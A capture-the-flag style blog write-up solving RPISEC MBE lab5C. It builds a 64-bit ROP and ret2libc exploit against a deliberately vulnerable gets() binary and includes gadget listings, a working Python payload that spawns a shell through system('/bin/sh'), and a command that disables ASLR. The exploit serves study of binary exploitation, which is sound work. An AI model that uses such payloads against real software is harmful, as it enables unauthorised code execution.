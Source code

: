 ```yaml
---
layout: post
title: ROP lab RPISEC
date: 2024-01-12 
description: rpisec lab5C
categories: rpisec bin-exp
---
```


### Solving lab5C "03/13 | --[ ROP Lab" (https://github.com/RPISEC/MBE/blob/master/src/lab05/lab5C.c)


### This lab is related to the exploration of DEP/NX.

First I'll talk about the problem I had with compiling the binary. This lab is made for 32-bit architecture and the exploit is also 32-bit based. And my idea was to do it in 64. So, due to some problems with address randomization, I had to add the ``` -no-pie``` flag to compile it. It was compiled like this:

```gcc lab5C.c -o lab5C -fno-stack-protector -no-pie```


As the exploration learned in the slides is for 32 bits, I had to use a technique aimed at 64 bits. I did a step by step of this technique here: https://github.com/geleiaa/lowlevel_things/blob/main/rpisec_mbe_labs/bypass_NX/bypass_NX_explain.md

And now let's see how it was applied in this binary.


Let's look at the source code to see what the binary does.

```c
#include <stdlib.h>
#include <stdio.h>

/* gcc -fno-stack-protector -o lab5C lab5C.c */

char global_str[128];

/* reads a string, copies it to a global */
void copytoglobal()
{
    char buffer[128] = {0};
    gets(buffer);
    memcpy(global_str, buffer, 128);
}

int main()
{
    char buffer[128] = {0};

    printf("I included libc for you...\n"\
           "Can you ROP to system()?\n");

    copytoglobal();

    return EXIT_SUCCESS;
}

```

It looks like simple code. The main prints some text. And the ``` copytoglobal() ``` function does exactly that, it takes what comes from stdin and passes it to the global variable.

Running the binary:

![runbin](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/runbinrop.png)


### To begin the exploration, let's see if we can overflow this buffer that stores the input.

Arriving at the RET of the ```copytoglobal()``` function we see that it was overwritten after 136 bytes of our pattern:

![retoverwrite](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/retoverwriterop.png)


Now that we know how to overwrite the return address of the ```copytoglobal()``` function, let's go with the ROP + ret2libc techniques.


### ROP + ret2libc

For this exploration we will need three things: 1 - address of the ```system()``` function, 2 - an argument to system(), 3 - gadgets that put this argument in the right place.


First the Gadgets. We need a "pop rdi" so that the system() function argument is passed to the RDI register and then passed to the function.

```sh
$ ROPgadget --binary lab5C --ropchain | grep pop
0x000000000040113b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401136 : mov byte ptr [rip + 0x2f03], 1 ; pop rbp ; ret
0x00000000004013ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013b0 : pop r14 ; pop r15 ; ret
0x00000000004013b2 : pop r15 ; ret
0x00000000004013ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004013af : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040113d : pop rbp ; ret
0x00000000004013b3 : pop rdi ; ret  <===== this addr
0x00000000004013b1 : pop rsi ; pop r15 ; ret
0x00000000004013ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```


Now let's get the address of the system function:

![sysaddr](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/systemaddr.png)


Lastly, the address of the string "/bin/sh" that we will use as an argument for system()

![binshaddr](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/binshaddr.png)


### Having all the addresses we will put them in the exploit

```py
import sys
import struct

gadget = struct.pack("<Q", 0x00000000004013b3)

binsh_addr = struct.pack("<Q", 0x7ffff7f7f152)

sys_addr = struct.pack("<Q", 0x7ffff7e2fe50)

sys.stdout.buffer.write(b'A'*136 + gadget + binsh_addr + sys_addr)
```


### Now let's run it in GDB and see if it works.


We can see the "pop rdi" gadget followed by "/bin/sh" and system on the stack:


![exp1](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop1.png)


After pop rdi is executed we see that "/bin/sh" was passed to the register:

![exp2](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop2.png)

And after the system call, GDB finishes executing the binary showing that a process has been started:

![exp3](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop3.png)


It seems like everything is fine, the exploit worked in the context of GDB, now let's see outside.

note: It is worth remembering that the machine's ASLR must be disabled otherwise the exploit will not work. To disable it: ```$ sudo sysctl kernel.randomize_va_space=0```


### pwn!

![exp4](https://github.com/geleiaa/lowlevel_things/blob/main/imgs/exprop4.png)



Remembering that the idea of this laboratory was to be done in 32-bit architecture but I decided to do it in 64-bit because it was more current. In 32 bits, it changes the way exploration is done, passing system() function arguments through the stack and not through registers. The rest is basically the same.
